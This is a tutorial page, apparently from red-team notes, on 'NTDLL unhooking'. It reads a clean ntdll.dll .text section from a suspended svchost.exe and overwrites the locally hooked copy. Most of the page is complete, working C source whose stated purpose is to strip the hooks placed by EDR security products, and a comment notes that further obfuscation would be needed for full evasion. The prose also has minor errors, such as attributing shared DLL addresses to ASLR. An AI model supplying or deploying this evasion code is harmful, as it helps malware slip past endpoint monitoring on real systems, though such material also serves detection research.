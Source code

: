 # NTDLL Unhooking - From Suspended Process

## Introduction

An alternate approach to loading NTDLL is to read it from a suspended process. This works because EDR's require a running process to to install their hooks. Here's how it works:

* We create a process in a suspended state. (Contains clean ntdll.dll)
* Get local base address of ntdll.dll. (Imported dlls share the same base address between processes)
* Get remote address of suspended process
* Access remote ntdll by fetching the local ntdll address (imported DLL's have the same VA values between processes)PAGE\_EXECUTE\_READWRITE
* Allocate Heap and copy .text from remote to local using SizOfCode found in OptionalHeader
* VirtualProtect local ntdll with RW & Copy memory from heap to ntdll base address.

Do to ASLR, the virtual address of an imported library will be the same throughout all processes that import it. This is shared below:

<figure><img src="../../../.gitbook/assets/image (87).png" alt=""><figcaption></figcaption></figure>



## Example

The below screen shot is of svchost.exe (a suspended process we started). We are locating the NTDLL.dll based on the same address we fetched from the local PEB in unhooking.exe

<figure><img src="../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>



### Required Helper Functions

The following functions are required to create a suspended file, get the base address of the created file,  and to get the address of the local ntdll.dll

```c

typedef NTSTATUS (NTAPI* fnNtQueryInformationProcess) (
        HANDLE           ProcessHandle,
        PROCESSINFOCLASS ProcessInformationClass,
        PVOID            ProcessInformation,
        ULONG            ProcessInformationLength,
        PULONG           ReturnLength
        );

BOOL CreateSuspendedProcess(STARTUPINFO *pSi, PPROCESS_INFORMATION pPi) {
    pSi->cb = sizeof(*pSi);
    // Just a POC: Update this with the dynamic filepath fetch for "svchost.exe"
    if (CreateProcessW(L"C:\\Windows\\System32\\svchost.exe", NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, pSi, pPi) == 0) {
        wprintf(L"CreateProcessW Failed %d", GetLastError()) ;
        return FALSE;
    };
    return TRUE;
}

PVOID FetchRemoteBaseAddress(PPROCESS_INFORMATION pPi, PPROCESS_BASIC_INFORMATION pPbi) {

    fnNtQueryInformationProcess NtQueryInformationProcess = (fnNtQueryInformationProcess)GetProcAddress(GetModuleHandle(L"NTDLL.DLL"), "NtQueryInformationProcess");
    // get target image PEB address and pointer to image base
    DWORD dwReturnLength = 0;
    LPVOID imageBase;
    NtQueryInformationProcess(pPi->hProcess, ProcessBasicInformation, pPbi, sizeof(PROCESS_BASIC_INFORMATION), &dwReturnLength);
    DWORD_PTR pebOffset = (DWORD_PTR)pPbi->PebBaseAddress + 0x10;
    ReadProcessMemory(pPi->hProcess, (LPCVOID)pebOffset, &imageBase, sizeof(LPVOID), NULL);
    return imageBase;
}

PVOID FetchLocalNtdllAddress() {
    PPEB pPeb = (PPEB)__readgsqword(0x60);
    PLDR_DATA_TABLE_ENTRY pLdr = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pPeb->Ldr->InMemoryOrderModuleList.Flink->Flink - 0x10);
    return pLdr->DllBase;
}

```



### Full Code

{% code fullWidth="true" %}
```c
#include <windows.h>
#include <winternl.h>
#include <wchar.h>
#include <stdio.h>

#define NTDLL L"NTDLL"

typedef NTSTATUS (NTAPI* fnNtQueryInformationProcess) (
        HANDLE           ProcessHandle,
        PROCESSINFOCLASS ProcessInformationClass,
        PVOID            ProcessInformation,
        ULONG            ProcessInformationLength,
        PULONG           ReturnLength
        );

BOOL CreateSuspendedProcess(STARTUPINFO *pSi, PPROCESS_INFORMATION pPi) {
    pSi->cb = sizeof(*pSi);
    // Just a POC: Update this with the dynamic filepath fetch for "svchost.exe"
    if (CreateProcessW(L"C:\\Windows\\System32\\svchost.exe", NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, pSi, pPi) == 0) {
        wprintf(L"CreateProcessW Failed %d", GetLastError()) ;
        return FALSE;
    };
    return TRUE;
}

PVOID FetchRemoteBaseAddress(PPROCESS_INFORMATION pPi, PPROCESS_BASIC_INFORMATION pPbi) {

    fnNtQueryInformationProcess NtQueryInformationProcess = (fnNtQueryInformationProcess)GetProcAddress(GetModuleHandle(L"NTDLL.DLL"), "NtQueryInformationProcess");
    // get target image PEB address and pointer to image base
    DWORD dwReturnLength = 0;
    LPVOID imageBase;
    NtQueryInformationProcess(pPi->hProcess, ProcessBasicInformation, pPbi, sizeof(PROCESS_BASIC_INFORMATION), &dwReturnLength);
    DWORD_PTR pebOffset = (DWORD_PTR)pPbi->PebBaseAddress + 0x10;
    ReadProcessMemory(pPi->hProcess, (LPCVOID)pebOffset, &imageBase, sizeof(LPVOID), NULL);
    return imageBase;
}

PVOID FetchLocalNtdllAddress() {
    PPEB pPeb = (PPEB)__readgsqword(0x60);
    PLDR_DATA_TABLE_ENTRY pLdr = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pPeb->Ldr->InMemoryOrderModuleList.Flink->Flink - 0x10);
    return pLdr->DllBase;
}


int wmain() {

    // Create process
    STARTUPINFO si = {0};
    PROCESS_INFORMATION pi = {0};
    PROCESS_BASIC_INFORMATION pbi = {0};

    // Create Suspended Process
    if (!CreateSuspendedProcess(&si, &pi)) {
        return -1;
    }

    // Get Local NTDLL Base Address
    PVOID pNtdllBaseAddress = FetchLocalNtdllAddress();

    wprintf(L"[+] NTDLL Base Address %p\n", pNtdllBaseAddress);
    wprintf(L"[+] Suspended PIDS: %d\n", pi.dwProcessId);


    // Parse Local PE Headers
    PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)pNtdllBaseAddress;
    if (pDosHeader->e_magic != IMAGE_DOS_SIGNATURE) {
        wprintf(L"[!] DOS Signature Failed\n");
        return -1;
    }

    PIMAGE_NT_HEADERS pNtHeaders = (PIMAGE_NT_HEADERS)(pNtdllBaseAddress + pDosHeader->e_lfanew);

    if (pNtHeaders->Signature != IMAGE_NT_SIGNATURE) {
        wprintf(L"[!] NT Signature Failed\n ");
        return -1;
    }

    PIMAGE_OPTIONAL_HEADER pImgOptionalHeader = (PIMAGE_OPTIONAL_HEADER)&pNtHeaders->OptionalHeader;

    // Get Size of .Text Section
    DWORD dwNtdllTextSize = pImgOptionalHeader->SizeOfCode;
    // Get Base address of .Text Section
    PVOID pAddressOfText = pNtdllBaseAddress + pImgOptionalHeader->BaseOfCode;


    wprintf(L"[+] Size of NTDLL .text section %d\n", dwNtdllTextSize);

    // Allocate Heap
    PVOID lpBuffer = HeapAlloc(GetProcessHeap(), 0, dwNtdllTextSize);

    // Copy Remote .Text Section to Allocated Buffer
    size_t ulBytesWritten = 0;
    ReadProcessMemory(pi.hProcess, pAddressOfText, lpBuffer, dwNtdllTextSize,  &ulBytesWritten);

    wprintf(L"[+] Wrote %d bytes to: %p\n", ulBytesWritten, lpBuffer);

    // Change permissions of local NTDLL
    DWORD dwOldPermissions;
    if (!VirtualProtect(pAddressOfText, dwNtdllTextSize, PAGE_EXECUTE_READWRITE, &dwOldPermissions)) {
        wprintf(L"[!] VirtualProtect[1] Failed %d", GetLastError() );
        return -1;
    }

    // This is just a POC, to avoid evasion properly needs more.
    // Example: Breaking apart copy into seperate spread out functions

    memcpy(pAddressOfText, lpBuffer, dwNtdllTextSize);

    if (!VirtualProtect(pAddressOfText, dwNtdllTextSize, dwOldPermissions, &dwOldPermissions)) {
        wprintf(L"[!] VirtualProtect[2] Failed %d", GetLastError() );
        return -1;
    }

    getchar();
    return 0;
}

```
{% endcode %}
